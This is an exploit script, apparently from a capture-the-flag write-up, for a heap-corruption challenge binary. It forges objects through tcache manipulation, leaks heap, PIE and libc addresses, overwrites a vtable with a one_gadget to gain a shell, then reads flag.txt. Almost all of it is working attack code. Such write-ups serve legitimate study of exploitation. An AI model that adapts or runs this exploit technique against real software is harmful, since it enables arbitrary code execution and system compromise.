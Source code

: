```python

'''on a brand new allocation,
    - malloc 40 (Food/Bamboo)
    - if foods[idx] doesn't exist, malloc 48 (map element)
    - if name.size() > 0xf, malloc space for string (31, 61, 121, ...).
    - if food type is Bamboo, allocate name.size() space for a copy of the string.
    - if foods[idx] exists, free the backing store for foods[idx]->name_ (if foods[idx]->name_.size() was > 0xf), and then free foods[idx] itself.'''
def fakeFood(payload: bytes) -> int:
    '''creates a fake Food struct containing `payload` at a random `idx`, stored as favorite. returns idx'''
    idx = randint(100,1<<30) # negligible chance of overlap
    alloc(idx, b'b'*60) # alloc 40, 48, 61, and potentially alloc&&free 61.
    fav(idx)
    alloc(idx, b'b'*60) # alloc 40&61, free previous 61&40.
    # the Food struct for `favorite` is at the top of tcache[size=0x30] at this point.
    for i in range(10): # There's a 1/2 that `favorite` is overwritten with the payload for every loop here. (1/2)**10 is a small enough error rate.
        # The other 1/2 chance puts `favorite` back on the top of tcache, so just repeat to increase odds.
        alloc(idx+i+1, payload[:0x17].ljust(0x17, b'\0')) # Note that len(payload) must not be within [0x18, 0x28) to prevent an additional 0x30 chunk allocation.
        # len(payload) > 0x1f is also forbidden because it would cause the malloc(31) string buffer to be freed. This resolves to len(payload) < 0x17.
    return idx
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')

# step 2: heap leak -> PIE leak -> libc leak
foods1_offset = next(i for i in range(0,99999,0x1000) if b'\0aaaaaaa\0' in (dat := pack(leak(heapbase+i,0x1000),'all'))) # note that this is actually a constant, but I prefer finding the offset dynamically
pie_leak = leak(heapbase+foods1_offset+dat.index(b'\0aaaaaaa\0')-23) # this is a leak of foods[1].vtable.
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50) # offset to the .relro vtable of Bamboo/Food. Find value from IDA or gdb
log.info('PIE: '+hex(context.binary.address))
assert is_addr.base(context.binary.address)
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']}) # libc6_2.27-3ubuntu1.4_amd64

# step 3: overwrite vtable to &one_gadget
og = context.libc.select_gadget(1) # empirical testing for working one_gadget
#og = context.binary.address+0x15bc0 # <--- proof of RIP control; this will cause "om nom nom" to appear 100% of the time
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
log.info('one_gadget: '+hex(og))
#print(pack(leak(og, 200),'all')) # <--- evidence that *one_gadget is real
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.sendlineafter('choice: \n', 'cat flag.txt\nexit')
log.info(r.recvall().strip().decode())
```
